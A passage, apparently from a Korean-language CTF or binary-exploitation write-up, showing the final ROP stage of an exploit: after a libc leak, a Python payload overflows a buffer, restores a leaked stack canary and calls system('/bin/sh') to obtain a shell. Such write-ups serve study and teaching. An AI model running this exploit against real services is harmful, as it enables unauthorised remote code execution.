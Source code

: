 libc를 leak했으니 이를 이용해서 간단하게 `system("/bin/sh")` 를 호출했다.

```python
# ROP Stage
libc.address = libc_base

system_addr = libc.symbols['system']
bin_sh_addr = next(libc.search(b'/bin/sh'))

new_title = b'hihihihi'
sess1.register(new_title, 0x3f0, b'A' * 0x3f0)
time.sleep(SLEEP_TICK)

payload = b'C' * 0x400
payload += p32(0x3f0)
payload += b'AAAA'
payload += p32(canary)
payload += b'AAAA'*3
payload += p32(system_addr)
payload += b'BBBB'
payload += p32(bin_sh_addr)
sess2.register(new_title, len(payload), payload)
time.sleep(SLEEP_TICK)

sess1.broadcast(3)
sess1.interactive()
```

## 5. Result

exploit을 수행한 결과 아래와 같이 shell을 획득할 수 있다.
